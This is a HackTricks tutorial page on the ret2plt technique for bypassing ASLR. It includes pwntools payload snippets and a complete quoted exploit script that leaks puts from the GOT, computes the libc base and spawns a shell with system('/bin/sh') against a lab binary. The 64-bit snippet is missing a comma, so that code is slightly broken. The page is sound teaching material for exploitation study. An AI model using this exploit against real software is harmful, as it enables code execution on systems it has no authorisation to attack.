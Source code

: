 # Ret2plt

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

The goal of this technique would be to **leak an address from a function from the PLT** to be able to bypass ASLR. This is because if, for example, you leak the address of the function `puts` from the libc, you can then **calculate where is the base of `libc`** and calculate offsets to access other functions such as **`system`**.

This can be done with a `pwntools` payload such as ([**from here**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got)):

```python
# 32-bit ret2plt
payload = flat(
    b'A' * padding,
    elf.plt['puts'],
    elf.symbols['main'],
    elf.got['puts']
)

# 64-bit
payload = flat(
    b'A' * padding,
    POP_RDI,
    elf.got['puts']
    elf.plt['puts'],
    elf.symbols['main']
)
```

Note how **`puts`** (using the address from the PLT) is called with the address of `puts` located in the GOT (Global Offset Table). This is because by the time `puts` prints the GOT entry of puts, this **entry will contain the exact address of `puts` in memory**.

Also note how the address of `main` is used in the exploit so when `puts` ends its execution, the **binary calls `main` again instead of exiting** (so the leaked address will continue to be valid).

{% hint style="danger" %}
Note how in order for this to work the **binary cannot be compiled with PIE** or you must have **found a leak to bypass PIE** in order to know the address of the PLT, GOT and main. Otherwise, you need to bypass PIE first.
{% endhint %}

You can find a [**full example of this bypass here**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/ret2plt-aslr-bypass). This was the final exploit from that **example**:

```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvline()

payload = flat(
    'A' * 32,
    elf.plt['puts'],
    elf.sym['main'],
    elf.got['puts']
)

p.sendline(payload)

puts_leak = u32(p.recv(4))
p.recvlines(2)

libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'],
    libc.sym['exit'],
    next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)

p.interactive()
```

## Other examples & References

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
  * 64 bit, ASLR enabled but no PIE, the first step is to fill an overflow until the byte 0x00 of the canary to then call puts and leak it. With the canary a ROP gadget is created to call puts to leak the address of puts from the GOT and the a ROP gadget to call `system('/bin/sh')`
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
  * 64 bits, ASLR enabled, no canary, stack overflow in main from a child function. ROP gadget to call puts to leak the address of puts from the GOT and then call an one gadget.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
